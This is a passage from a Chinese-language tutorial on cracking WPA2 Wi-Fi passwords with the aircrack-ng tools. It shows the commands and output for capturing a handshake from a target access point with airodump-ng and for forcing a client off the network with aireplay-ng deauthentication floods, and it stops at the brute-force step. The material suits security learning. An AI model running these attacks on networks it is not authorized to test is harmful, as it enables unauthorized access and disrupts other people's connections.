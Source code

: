第二个列表表示某个无线网络中和用户设备的连接信息：

* BSSID: 无线 AP 的硬件地址
* STATION: 用户设备的硬件地址

扫描列表会不停刷新，确定最终目标后按 Ctrl-C 退出。

这里仅仅是演示，所以列表只保留了一条结果。

### 5. 使用参数过滤扫描列表，确定扫描目标

使用命令：`airodump-ng -w <扫描结果保存的文件名> -c <无线网络信道> --bssid <目标无线 AP 的硬件地址> <处于监听模式的网卡名称>`

~~~
netcon@conwlt:~/workspace$ sudo airodump-ng -w android -c 6 --bssid 22:47:DA:62:2A:F0 wlp8s0mon


 CH  5 ][ Elapsed: 12 s ][ 2018-10-07 18:49 ][ WPA handshake: 22:47:DA:62:2A:F0

 BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

 22:47:DA:62:2A:F0  -33 100     1597      387   11   6  54e. WPA2 CCMP   PSK  AndroidAP

 BSSID              STATION            PWR   Rate    Lost    Frames  Probe                                  

 22:47:DA:62:2A:F0  AC:BC:32:96:31:8D  -32    1e-24e  1691     2657

~~~

刚扫描时看到输出的扫描状态是这样的：`CH  5 ][ Elapsed: 12 s ][ 2018-10-07 18:49`。

只有当扫描状态后面出现 ` ][ WPA handshake: 22:47:DA:62:2A:F0` 后，我们才拿到拿到进行破解的握手包。

扫描过程中如果有用户设备尝试连接 Wi-Fi 时，我们就会拿到握手包。

所以我们可以同时使用 `aireplay-ng` 对目标设备进行攻击，使其掉线重新连接，这样我们就拿到了握手包。

拿到握手包后按 Ctrl-C 结束扫描即可。

### 6. 使用 aireplay-ng 对目标设备发起攻击

使用命令：`aireplay-ng -<攻击模式> <攻击次数> -a 无线 AP 硬件地址> -c <用户设备硬件地址> <处于监听模式的网卡名称>`

~~~
netcon@conwlt:~$ sudo aireplay-ng -0 0 -a 22:47:DA:62:2A:F0 -c AC:BC:32:96:31:8D wlp8s0mon
18:57:31  Waiting for beacon frame (BSSID: 22:47:DA:62:2A:F0) on channel 6
18:57:32  Sending 64 directed DeAuth. STMAC: [AC:BC:32:96:31:8D] [41|64 ACKs]
18:57:33  Sending 64 directed DeAuth. STMAC: [AC:BC:32:96:31:8D] [19|121 ACKs]
18:57:33  Sending 64 directed DeAuth. STMAC: [AC:BC:32:96:31:8D] [11|80 ACKs]
...
~~~

发起攻击后，当 `airodump-ng` 成功拿到了握手包，使用 Ctrl-C 退出攻击。

### 7. 使用 aircrack-ng 暴力破解 Wi-Fi 密码
